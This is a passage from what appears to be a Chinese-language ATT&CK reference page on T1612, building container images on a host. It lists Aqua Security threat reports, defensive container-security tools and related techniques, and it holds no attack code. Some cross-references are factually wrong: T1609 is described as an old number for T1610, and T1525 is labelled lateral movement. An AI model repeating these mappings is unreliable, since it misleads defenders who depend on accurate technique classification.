- [Aqua Security - Threat Alert: Attackers Building Malicious Images on Your Hosts (2020)](https://blog.aquasec.com/malicious-container-image-docker-container-host)
- [Team Nautilus - Cloud Native Threat Report 2021](https://info.aquasec.com/hubfs/Threat%20reports/AquaSecurity_Cloud_Native_Threat_Report_2021.pdf)
- [Aqua Security - Team Nautilus Research](https://blog.aquasec.com/category/team-nautilus/)

### 🔧 工具与资源（动手试试）

- [Docker Bench for Security](https://github.com/docker/docker-bench-security) - Docker主机安全配置检查脚本
- [Falco](https://github.com/falcosecurity/falco) - CNCF毕业的容器运行时安全监控工具
- [Trivy](https://github.com/aquasecurity/trivy) - 镜像漏洞扫描器（注意：对本地构建的镜像无效，需在CI/CD管道内集成）
- [Kyverno](https://kyverno.io/) - Kubernetes原生策略引擎，可校验镜像来源与签名
- [OPA Gatekeeper](https://github.com/open-policy-agent/gatekeeper) - Kubernetes准入控制器
- [Cosign](https://github.com/sigstore/cosign) - 镜像签名工具（Sigstore项目）
- [Sysdig Secure](https://sysdig.com/products/secure/) - 商业容器运行时安全平台

## 相关技术

- **[T1610 部署容器](../04-Execution/T1610-Deploy-Container.md)**：执行战术，T1612构建的镜像几乎总是通过T1610部署运行——两者构成"T1612构建 → T1610部署"的标准攻击链
- **[T1611 逃逸到主机](../06-Privilege-Escalation/T1611-Escape-to-Host.md)**：权限提升战术，特权容器内的攻击者可通过挂载的docker.sock反向利用宿主机daemon执行T1612
- **[T1613 容器与资源发现](../10-Discovery/T1613-Container-and-Resource-Discovery.md)**：发现战术，攻击者在执行T1612前通常先通过T1613侦察容器环境与可用的运行时API
- **[T1525 植入内部镜像](../10-Delivery/T1525-Implant-Internal-Image.md)**：横向移动战术，与T1612形成对比——T1525是在镜像仓库中植入恶意镜像，T1612是绕过仓库直接本地构建
- **[T1609 部署容器（旧编号，对应T1610）](../04-Execution/T1610-Deploy-Container.md)**：执行战术，容器部署技术，与T1612共同构成容器攻击的核心技术对
- **[T1562 削弱防御](./T1562-Impair-Defenses.md)**：隐蔽战术（注意：在ATT&CK v19.1中T1562已被撤销，由T1685替代并迁移至TA0112防御削弱），攻击者可能在执行T1612前先削弱容器运行时安全工具
